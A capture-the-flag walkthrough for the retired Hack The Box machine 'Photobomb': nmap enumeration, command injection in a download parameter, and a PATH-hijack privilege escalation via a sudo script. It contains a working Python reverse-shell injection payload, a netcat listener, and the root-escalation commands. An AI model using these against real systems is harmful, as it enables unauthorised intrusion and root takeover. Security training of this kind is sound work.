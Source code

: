 # Photobomb
Machine Name: Photobomb
-----------------------

*   **Status:** Retired
*   **OS:** Linux
*   **Difficulty:** Easy
*   **Date Owned:** 11/23/2022 
*   **IP Assigned:** 10.10.11.182

Enumeration:
------------

First I'll fire off an NMAP scan to look for any open ports on the target using the following switches:

*   \-sS: syn scan, this is quick and stealthy as it does not complete the TCP connection. It can also differentiation between open, closed, and filtered states of a port. I will need to be run with sudo privileges as it requires raw packet manipulation.
*   \-A: enables aggressive scanning and will enable OS detection (-O), version scanning (-sV), script scanning (-sC), and traceroute (-traceroute).
*   \-p-: will scan all ports on the host.
*   \-T4: timing template 4 is a predefined packet limit per millisecond. Template 4 is considered aggressive.
*   \-oN: output the results to a file.

```text-plain
sudo nmap -sS -A -p- -T4 -oN nmap.txt 10.10.11.182
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-21 22:54 EST
Nmap scan report for 10.10.11.182
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http   nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/21%OT=22%CT=1%CU=34522%PV=Y%DS=2%DC=T%G=Y%TM=637C48
OS:08%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   22.25 ms 10.10.14.1
2   22.30 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds
```

After a few minutes the scan has completed. Ports 22 (SSH) and 80 (HTTP) appear to be open.

Web Enumeration:
----------------

We'll start by adding the domain to our hosts file then browse to the webpage.

```text-plain
echo ‘10.10.11.182 photobomb.htb’ | sudo tee -a /etc/hosts
```

The webpage does not seem to offer much but it seems a note has been left by an administrator in a javascript file which can be viewed in the debugger tab.

![](Photobomb/image.png)

if we navigate to the page in the note we find some functionality that allows a user to download a photo from the web server. Lets fire up Burp Suite and intercept this traffic.

Burp Suite Command Injection
----------------------------

Click on the Proxy tab in Burp Suite and click Open Browser. Paste in the URL we found in the dev comment above. Now select the ‘Intercept is off’ button which will flip it to on. With intercept on click on the download button at the bottom of the webpage to capture the request which will look like the image below.

![](Photobomb/1_image.png)

Lets try to inject some code into one of these parameters and try to execute a reverse shell. I will use the python payload below. You will need to replace the ‘x’ characters with your IP, and specify a port you will be listening on.

```text-plain
;export+RHOST="xx.xx.xx.xx";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'
```

With the payload ready start a netcat listener on the port specified.

```text-plain
nc -nlvp 4444
listening on [any] 4444 ...
```

Now that the payload is prepared and we are listening for a connection on the appropriate port go back to Burp Suite, right click anywhere in the request we intercepted earlier and select ‘Send to Repeater’. Then go to the Repeater tab which should be highlighted and paste the URL encoded payload into the filetype parameter. The response should hang which is always a promising sign, then we see a new connection appear on our listener which means we got a shell!

![](Photobomb/2_image.png)

Reverse Shell Access
--------------------

Now we have access to the machine under the account or service that executed our code. Lets do a bit of enumeration to find out who we are and find the flag. The flag is located at /home/wizard/user.txt

```text-plain
nc -nlvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.182.
Ncat: Connection from 10.10.11.182:41316.
$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$ cat /home/wizard/user.txt
cat /home/wizard/user.txt
HTB{********************************}
 
```

Privilege Escalation
--------------------

Next we will need to find a path to privilege escalation. One of the first things to check is the owned account's permissions for anything unusual. We'll start with the sudo -l command.

```text-plain
$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
   env_reset, mail_badpass,
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User wizard may run the following commands on photobomb:
   (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

It seems that we can ser environmental variables (SETENV) and also run this bash script called cleanup.sh as root. Lets take a look at the code in cleanup.sh and see if we can leverage it to execute a payload as root.

```text-plain
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
 /bin/cat log/photobomb.log > log/photobomb.log.old
 /usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Notice that ‘find’ is being called without specifying its absolute path. Knowing that we can set environmental variables might mean that we can create a malicious version of find and force cleanup.sh to execute our find function instead by modifying the PATH variable.

In order to do this we will need to navigate back to our home directory where we have write permissions and create a new find file that contains bash. Then we will need to add execute permission, and finally add this directory to the beginning of the PATH variable for cleanup.sh.

```text-plain
$ cd /home/wizard
cd /home/wizard
$ ls
ls
photobomb  user.txt
$ echo bash > find
echo bash > find
$ chmod +x find
chmod +x find
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

Root Shell Access
-----------------

Once the path is added and the script is executed we now have a root shell. The root flag can be found at /root/root.txt

```text-plain
root@photobomb:/home/wizard/photobomb# id    
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
HTB{********************************}
```

Congratulations on completing this machine! Happy hunting.